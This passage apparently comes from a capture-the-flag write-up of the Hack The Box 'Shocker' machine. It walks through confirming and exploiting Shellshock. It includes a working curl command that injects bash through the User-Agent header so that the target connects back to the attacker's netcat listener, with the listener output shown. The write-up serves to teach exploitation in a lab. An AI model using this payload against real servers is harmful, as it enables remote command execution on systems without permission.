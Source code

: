 ``` bash
|       as Shellshock. It seems the server is executing commands injected
|       via malicious HTTP headers.
|             
|     Disclosure date: 2014-09-24
|     References:
|       http://www.openwall.com/lists/oss-security/2014/09/24/10
|       http://seclists.org/oss-sec/2014/q3/685
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-7169
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6271

Nmap done: 1 IP address (1 host up) scanned in 0.88 seconds
```

Well look at that, it reports vulnerable! (imagine my shock - pun 100% intended)
<br><br>

# Exploitation

Alright, let's just double-check and see if we can manually inject code.

First we'll start a netcat listener using `nc -lnvp 12345`, then we'll execute the following:

``` bash
curl -H "User-Agent: () { :; }; echo; echo; /bin/bash -c 'echo BRADMAN | nc 10.10.16.192 12345'" http://10.10.10.56/cgi-bin/user.sh
```

Okay, okay, slow down, what the hell did I just do?

Let's start at `nc -lnvp 12345`, this is going to open up a **network listener** on our local machine on port 12345, meaning we are opening up that port and reporting back any connection information sent to it. We do this with the flag `-lnvp`:
1. `-l`: Listener mode for inbound connects
2. `-n`: numeric IP Addresses only, no dns
3. `-v`: verbose mode
4. `-p PORT`: the port we're wanting to open up, in this case: 12345

NetCat is pretty cool and lets us just string all these flags together as `-lnvp` or `-nvlp` or `-vlnp` or ... well... you should get the idea.

Next, we need to actually exploit ShellShock - there are super good explanations online for ShellShock, one of my favorites is [here.](https://community.broadcom.com/symantecenterprise/communities/community-home/librarydocuments/viewdocument?DocumentKey=5ee60f4e-030f-4691-b5b4-dc3c9e3701d4&CommunityKey=1ecf5f55-9545-44d6-b0f4-4e4a7f5f5e68&tab=librarydocuments) I recommend reading through that if you're unfamiliar with ShellShock.

So, my actual payload in the `curl` command is<br>
`/bin/bash -c 'echo BRADMAN | nc 10.10.16.192 12345'` <br>
 What this does **echo**'s "BRADMAN" to netcat, but instead of listening, we're actually connecting to an IP Address, specifically, my attacker box, and on the port we opened, 12345. When we execute this curl command, we get the following on our netcat listener:

```bash
┌──(kali㉿kali)-[~/htb/Shocker]
└─$ nc -lnvp 12345  
listening on [any] 12345 ...
connect to [10.10.16.192] from (UNKNOWN) [10.10.10.56] 48194
BRADMAN
```
